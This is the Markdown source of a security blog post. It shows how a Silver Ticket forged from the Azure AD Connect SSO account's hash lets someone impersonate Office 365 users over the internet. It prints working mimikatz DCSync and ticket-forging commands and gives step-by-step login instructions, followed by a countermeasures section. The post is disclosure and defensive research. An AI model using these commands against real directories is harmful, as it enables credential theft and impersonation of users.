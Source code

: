```yaml
---
ref: impersonating
title: Impersonating Office 365 Users With&nbsp;Mimikatz
date: 2017-01-15T19:35:43+00:00
layout: post
lang: en
image: /assets/images/aad_sso2.png
permalink: /en/impersonating-office-365-users-mimikatz/
tags:
    - 'Active Directory'
    - 'Microsoft Azure'
    - Mimikatz
    - 'Office 365'
    - Security
---
```


Last month, Microsoft has introduced a&nbsp;new feature of&nbsp;Azure AD Connect called [Single Sign On](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso). It&nbsp;allows companies to&nbsp;configure SSO between AD and&nbsp;AAD without the&nbsp;need to&nbsp;deploy [ADFS](https://learn.microsoft.com/en-us/windows-server/identity/active-directory-federation-services), which&nbsp;makes it&nbsp;an&nbsp;ideal solution for&nbsp;SMEs. Here is&nbsp;a&nbsp;high-level diagram of&nbsp;this&nbsp;functionality:

![Azure AD Connect SSO Diagram](../../assets/images/aad_sso4.png)

As we can&nbsp;see from&nbsp;the&nbsp;diagram above, Azure AD exposes a&nbsp;[publicly available endpoint](https://autologon.microsoftazuread-sso.com) that&nbsp;accepts Kerberos tickets and&nbsp;translates them into SAML and&nbsp;JWT tokens, which&nbsp;are&nbsp;understood and&nbsp;trusted by&nbsp;other cloud services like Office 365, Azure or&nbsp;Salesforce. And&nbsp;wherever&nbsp;you have Kerberos-based authentication, it&nbsp;can&nbsp;be&nbsp;attacked using [Silver Tickets](https://adsecurity.org/?p=2011).

In&nbsp;usual circumstances this&nbsp;attack can&nbsp;only be&nbsp;performed from&nbsp;the&nbsp;intranet. But&nbsp;what really caught my attention is&nbsp;the&nbsp;fact that&nbsp;with&nbsp;this&nbsp;new SSO feature, **Silver Tickets could be&nbsp;used from&nbsp;the&nbsp;entire internet**. Let’s give it&nbsp;a&nbsp;try then!

<!--more-->

## The&nbsp;Nasty Stuff

To&nbsp;test this&nbsp;technique, we need to&nbsp;retrieve some&nbsp;information from&nbsp;Active Directory first:

1. NTLM password hash of&nbsp;the&nbsp;[AZUREADSSOACC$](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#how-single-sign-on-works) account, e.g. *f9969e088b2c13d93833d0ce436c76dd*. This&nbsp;value can&nbsp;be&nbsp;retrieved from&nbsp;AD using [mimikatz](https://github.com/gentilkiwi/mimikatz):

    ```batchfile
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```

    My own [DSInternals PowerShell Module](https://github.com/MichaelGrafnetter/DSInternals) could do&nbsp;the&nbsp;same job:

    ```powershell
    Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso `
    -Server lon-dc1.contoso.local
    ```

    Both of&nbsp;these commands need *Domain Admins* permissions.

2. Name of&nbsp;the&nbsp;AD domain, e.g. *contoso.local*.
3. AAD logon name of&nbsp;the&nbsp;user we want to&nbsp;impersonate, e.g. elrond@contoso.com. This&nbsp;is&nbsp;typically either his&nbsp;*userPrincipalName* or&nbsp;*mail* attribute from&nbsp;the&nbsp;on-prem AD.
4. SID of&nbsp;the&nbsp;user we want to&nbsp;impersonate, e.g. *S-1-5-21-2121516926-2695913149-3163778339-1234*.

Having this&nbsp;information we can&nbsp;now&nbsp;create and&nbsp;use the&nbsp;Silver Ticket on any Windows computer connected to&nbsp;the&nbsp;internet. It&nbsp;does not even&nbsp;matter whether&nbsp;it&nbsp;is&nbsp;joined to&nbsp;a&nbsp;domain or&nbsp;a&nbsp;workgroup:

1. Create the&nbsp;Silver Ticket and&nbsp;inject it&nbsp;into Kerberos cache:

    ```batchfile
    mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```

    ![Mimikatz Silver Ticket Screenshot](../../assets/images/aad_sso3.png)

2. Launch *Mozilla Firefox*.
3. Go to&nbsp;`about:config` and&nbsp;set the&nbsp;[network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) preference to&nbsp;[value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) “https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com”.
4. Navigate to&nbsp;any web application that&nbsp;is&nbsp;integrated with&nbsp;our AAD domain. We will use [Office 365](https://portal.office.com), which&nbsp;is&nbsp;the&nbsp;most commonly used one.
5. Once&nbsp;at the&nbsp;logon screen, fill in&nbsp;the&nbsp;user name, while&nbsp;leaving the&nbsp;password field empty. Then press TAB or&nbsp;ENTER.

    ![Office 365 Sing-In Screen](../../assets/images/aad_sso1.png)

6. That’s it, we’re in!

    ![Office 365 Home](../../assets/images/aad_sso2.png)

7. To&nbsp;log in&nbsp;as&nbsp;another user, run the&nbsp;command below and&nbsp;repeat steps 1-6.

    ```batchfile
    klist purge
    ```

It is&nbsp;also worth noting that&nbsp;the&nbsp;password of&nbsp;the&nbsp;*AZUREADSSOACC$* account never changes, so&nbsp;the&nbsp;stolen hash/key will work forever. It&nbsp;could therefore be&nbsp;misused by&nbsp;highly privileged employees to&nbsp;retain access to&nbsp;the&nbsp;IT&nbsp;environment after&nbsp;leaving the&nbsp;company. Dealing with&nbsp;such situations is&nbsp;a&nbsp;much broader problem, which&nbsp;is&nbsp;aptly depicted by&nbsp;the&nbsp;following old Narnian saying:

![Once a&nbsp;Domain Admin, always a&nbsp;Domain Admin](../../assets/images/narnia.png)

## Countermeasures

First of&nbsp;all, I&nbsp;have to&nbsp;point out that&nbsp;this&nbsp;technique would not be&nbsp;very practical in&nbsp;real-world situations due to&nbsp;these reasons:

- The&nbsp;SSO feature is&nbsp;in&nbsp;Preview and&nbsp;has to&nbsp;be&nbsp;explicitly enabled by&nbsp;an&nbsp;AD admin. Just a&nbsp;handful of&nbsp;companies probably use it&nbsp;at the&nbsp;time of&nbsp;writing this&nbsp;article and&nbsp;enterprises will quite surely stick to&nbsp;their proven ADFS deployments even&nbsp;after&nbsp;this&nbsp;feature reaches GA.
- The&nbsp;hash/key of&nbsp;the&nbsp;*AZUREADSSOACC$* account can&nbsp;only be&nbsp;retrieved by&nbsp;Domain Admins from&nbsp;DCs by&nbsp;default. But&nbsp;if&nbsp;an&nbsp;attacker had such highly privileged access to&nbsp;an&nbsp;Active Directory domain, he/she would be&nbsp;able to&nbsp;do&nbsp;some&nbsp;way nastier stuff than&nbsp;just replicating a&nbsp;single hash.
- The&nbsp;password of&nbsp;the&nbsp;*AZUREADSSOACC$* account is&nbsp;randomly generated during the&nbsp;deployment of&nbsp;*Azure AD Connect*. It&nbsp;would therefore be&nbsp;impossible to&nbsp;guess this&nbsp;password.

As&nbsp;you can&nbsp;see, there is&nbsp;simply no need to&nbsp;panic. But&nbsp;just to&nbsp;be&nbsp;safe, I&nbsp;would recommend these generic security measures:

- Only delegate administrative access to&nbsp;trusted individuals and&nbsp;keep the&nbsp;number of&nbsp;members of&nbsp;the&nbsp;*Domain Admins* group (and other privileged groups) as&nbsp;low as&nbsp;possible.
- Protect backups of&nbsp;Domain Controllers, so&nbsp;no-one could [extract sensitive information](/en/dumping-ntds-dit-files-using-powershell/) from&nbsp;them.
- Enable and&nbsp;enforce [Azure MFA](https://docs.microsoft.com/en-us/azure/multi-factor-authentication/multi-factor-authentication) for&nbsp;users authenticating from&nbsp;external IP addresses. It&nbsp;is&nbsp;very straightforward and&nbsp;effective against many kinds of&nbsp;attacks.
- Consider implementing [Azure AD conditional access](https://docs.microsoft.com/cs-cz/azure/active-directory/active-directory-conditional-access).
- Deploy [Microsoft Defender for&nbsp;Identity](https://www.microsoft.com/en-us/cloud-platform/advanced-threat-analytics) to&nbsp;detect malicious replication and&nbsp;other threats to&nbsp;your AD infrastructure.
- Force a&nbsp;password change on the&nbsp;*AZUREADSSOACC$* account by&nbsp;<del>re-deploying Azure AD Connect SSO</del> [running the&nbsp;Update-AzureSSOForest cmdlet](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso-faq#how-can-i-roll-over-the-kerberos-decryption-key-of-the-azureadssoacc-computer-account) after&nbsp;a&nbsp;highly privileged employee leaves the&nbsp;company and/or on a&nbsp;regular basis. This&nbsp;should be&nbsp;done together with&nbsp;resetting the&nbsp;password of&nbsp;*krbtgt* and&nbsp;other sensitive accounts.

## Conclusion

Although&nbsp;the&nbsp;Silver Ticket attack has been here for&nbsp;some&nbsp;years, it&nbsp;is&nbsp;now&nbsp;probably the&nbsp;first time it&nbsp;can&nbsp;be&nbsp;used over the&nbsp;internet against a&nbsp;cloud service, which&nbsp;theoretically makes it&nbsp;even&nbsp;more potent. On the&nbsp;other hand, it&nbsp;would be&nbsp;quite hard to  perform this&nbsp;technique in&nbsp;a&nbsp;real-world environment due to&nbsp;impracticalities discussed in&nbsp;the&nbsp;previous section, so&nbsp;there is&nbsp;no need to&nbsp;worry. The&nbsp;new Seamless SSO feature of&nbsp;Azure AD Connect can&nbsp;therefore be&nbsp;considered safe and&nbsp;preferred solution for&nbsp;SSO to&nbsp;Office 365.
